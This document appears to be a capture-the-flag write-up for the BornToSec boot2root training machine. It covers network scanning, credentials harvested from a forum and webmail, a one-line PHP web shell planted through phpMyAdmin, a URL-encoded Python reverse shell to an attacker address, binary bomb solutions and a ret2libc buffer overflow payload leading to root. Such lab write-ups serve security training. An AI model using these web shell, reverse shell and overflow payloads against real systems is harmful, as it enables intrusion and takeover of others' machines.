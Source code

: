 # Information Gathering
We have no info about the machine we can begin finding the IP of the machine and some open ports

nmap -sn 172.20.10.0/24
Nmap scan report for 172.20.10.2
Host is up (0.00025s latency).

We will make an agressive test on the IP to check open ports and some exploit opportunity

21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
|_imap-capabilities: ENABLE Pre-login LOGIN-REFERRALS ID more post-login have listed IMAP4rev1 LITERAL+ SASL-IR capabilities STARTTLS LOGINDISABLEDA0001 OK IDLE
443/tcp open  ssl/http   Apache httpd 2.2.22
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
993/tcp open  ssl/imaps?
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see a lot of interesting services running on the machine first of all a website
When we try to reach the page we have "Not found" first reflex we have to find the right route for this I will use dirbub enumerate the routes
We have some interesting results we can see that we have a forum, a squirrelmail service and a phpmyadmin

With wappalyzer extension we can see that squirrel mail version is 1.4.22

We have a lot of users
admin
lmezard
qudevide
thor
wandre
zaz

we found a password for lmezard on a post : !q\]Ej?*5K5cy*AJ
With this password we can connect on forum.

we found it's mail laurie@borntosec.net we can now connect to squirrelmail

In squirrelmail we have a db root password root/Fg-'kKXBj87E:aJ$

This access gives us something interesting squirrel 1.4.22 is vulnerable to a remote code execution it means that we can have a shell or we can inject a shell in
phpmyadmin

We must find a file where we can upload our shell here it is : templates_c found on the documentation.
https://github.com/My-Little-Forum/mylittleforum/wiki/Installation

I will choose the second option :
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"

you have to url encode the reverse shell and put it in the url ip/forum/templates_c/backdoor.php?cmd=exploit
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.20.10.3%22%2C9001%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27%0A%0A

in /home/LOOKATME we have lmezard password : G!@M6f4Eatau{sF"

# lmezard

we have a file in lmezard home named fun if we make strings fun we can see with some greps that the password is : getme1() + getme2() + ... + getme12() functions

	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");

I made a python script to parse files .pcap but only ascii text
The format of files is /file followed by number and then the content I put it in C files and then compile

Iheartpwnage in SHA256 = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

laurie password = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# Bomb binary laurie

Now we have bomb binary decompiling it we can try to defuse :

First input : Public speaking is very easy.

Each subsequent number must follow the pattern defined in the loop:
    v4[i]=v4[i-1]×(i+1)
    v4[0] = 1
	v4[1]= v4[0]× 2 = 2
    v4[2]= v4[1]× 3 = 2 × 3 = 6
    v4[3]= v4[2]× 4 = 6 × 4 = 24
    v4[4]= v4[3]× 5 = 24 × 5 = 120
    v4[5]= v4[4]× 6 = 120 × 6 = 720

Second input : 1 2 6 24 120 720

Third input : 7 b 524

Fourth input : 9


Fifth :

.data:0804B220 array_123       db 69h  ; i
.data:0804B221                 db  73h ; s
.data:0804B222                 db  72h ; r
.data:0804B223                 db  76h ; v
.data:0804B224                 db  65h ; e
.data:0804B225                 db  61h ; a
.data:0804B226                 db  77h ; w
.data:0804B227                 db  68h ; h
.data:0804B228                 db  6Fh ; o
.data:0804B229                 db  62h ; b
.data:0804B22A                 db  70h ; p
.data:0804B22B                 db  6Eh ; n
.data:0804B22C                 db  75h ; u
.data:0804B22D                 db  74h ; t
.data:0804B22E                 db  66h ; f
.data:0804B22F                 db  67h ; g

We have to build the string giants with the letters in array_123 so we need to have index & 15

array_123[15] + array_123[0] + array_123[5] + array_123[11] + array_123[13] + array_123[1]

index = index & 15

Fifth input : o0ukmA (one of the possibility more in the script)

If we only take ascii lowercase uppercase and digits
g: ['o', 'O']
i: ['p', 'P', '0']
a: ['e', 'u', 'E', 'U', '5']
n: ['k', 'K']
t: ['m', 'M']
s: ['a', 'q', 'A', 'Q', '1']

Sixth :
node1 = 253
node2 = 725
node3 = 301
node4 = 997
node5 = 212
node6 = 432
We have to sort the node in descending order doing permutations in the input (input < 6)

Sixth input : 4 2 6 3 1 5

with the different possibilites we had to bruteforce to find the password with string.ascii_lowercase

Thor password : Publicspeakingisveryeasy.126241207201b2149opekmq426135

# Thor

For thor we have a turtle file with instruction we will resolve it with python script it's writing the word SLASH

https://www.browserling.com/tools/all-hashes
and we have to hash it as said at the end of the file and in MD5 it gives us : 646da671ca01bb5d84dbb5fb2238dc8e


Zaz password : 646da671ca01bb5d84dbb5fb2238dc8e

# Zaz

In this binary when decompiled we direcly see the buffer overflow we'll do a ret2libc to gain a shell

p system : 0xb7e6b060
find 0xb7e2c000,0xb7fcf000,"/bin/sh" : 0xb7f8cc58
p exit : 0xb7e5ebe0

Offset 140 calculated with [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) => print("A" * 140) + struct.pack("I", 0xb7e6b060) + struct.pack("I", 0xb7e5ebe0) + struct.pack("I", 0xb7f8cc58)

We have a root shell
